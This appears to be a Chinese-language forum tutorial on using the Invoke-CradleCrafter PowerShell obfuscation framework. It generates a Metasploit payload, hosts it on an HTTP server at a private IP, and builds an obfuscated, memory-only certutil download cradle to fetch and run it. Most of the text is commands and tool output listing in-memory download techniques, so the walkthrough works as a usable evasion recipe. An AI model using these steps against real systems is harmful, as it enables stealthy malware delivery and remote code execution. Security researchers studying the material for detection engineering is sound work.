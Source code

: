 下载powershell混淆框架并执行

```powershell
Import-Module .\Invoke-CradleCrafter.ps1

Invoke-CradleCrafter
```

[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-e3a4671daee991dc7ac0c699e4eace9e3c8fbfab.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-e3a4671daee991dc7ac0c699e4eace9e3c8fbfab.png)

使用msf生成一个payload，在本地起一个http服务器，放到http服务器的目录下

[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-a7ebc24a5bd3ba0aa138809d112c90e856dff96c.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-a7ebc24a5bd3ba0aa138809d112c90e856dff96c.png)

设置url为http服务器目录

```php
set URL http://172.20.10.4:8000/key.txt
```

[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-873dae841deb3ff190680bf7ce9e09d87e0658f0.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-873dae841deb3ff190680bf7ce9e09d87e0658f0.png)

使用以下几个命令进行初始化

```php
Invoke-CradleCrafter> MEMORY

Choose one of the below Memory options:

[*] MEMORY\PSWEBSTRING          PS Net.WebClient + DownloadString method
[*] MEMORY\PSWEBDATA            PS Net.WebClient + DownloadData method
[*] MEMORY\PSWEBOPENREAD        PS Net.WebClient + OpenRead method
[*] MEMORY\NETWEBSTRING         .NET [Net.WebClient] + DownloadString method (PS3.0+)
[*] MEMORY\NETWEBDATA           .NET [Net.WebClient] + DownloadData method (PS3.0+)
[*] MEMORY\NETWEBOPENREAD       .NET [Net.WebClient] + OpenRead method (PS3.0+)
[*] MEMORY\PSWEBREQUEST         PS Invoke-WebRequest/IWR (PS3.0+)
[*] MEMORY\PSRESTMETHOD         PS Invoke-RestMethod/IRM (PS3.0+)
[*] MEMORY\NETWEBREQUEST        .NET [Net.HttpWebRequest] class
[*] MEMORY\PSSENDKEYS           PS SendKeys class + Notepad (for the lulz)
[*] MEMORY\PSCOMWORD            PS COM object + WinWord.exe
[*] MEMORY\PSCOMEXCEL           PS COM object + Excel.exe
[*] MEMORY\PSCOMIE              PS COM object + Iexplore.exe
[*] MEMORY\PSCOMMSXML           PS COM object + MsXml2.ServerXmlHttp
[*] MEMORY\PSINLINECSHARP       PS Add-Type + Inline CSharp
[*] MEMORY\PSCOMPILEDCSHARP     .NET [Reflection.Assembly]::Load Pre-Compiled CSharp
[*] MEMORY\CERTUTIL             Certutil.exe + -ping Argument

Invoke-CradleCrafter\Memory> CERTUTIL

[*] Name          :: Certutil
[*] Description   :: PowerShell leveraging certutil.exe to download payload as string
[*] Compatibility :: PS 2.0+
[*] Dependencies  :: Certutil.exe
[*] Footprint     :: Entirely memory-based
[*] Indicators    :: powershell.exe spawns certutil.exe certutil.exe 
[*] Artifacts     :: C:\Windows\Prefetch\CERTUTIL.EXE-********.pf AppCompat Cache

Invoke-CradleCrafter\Memory\Certutil> ALL

Choose one of the below Memory\Certutil\All options to APPLY to current cradle:

[*] MEMORY\CERTUTIL\ALL\1       Execute ALL Token obfuscation techniques (random order)
```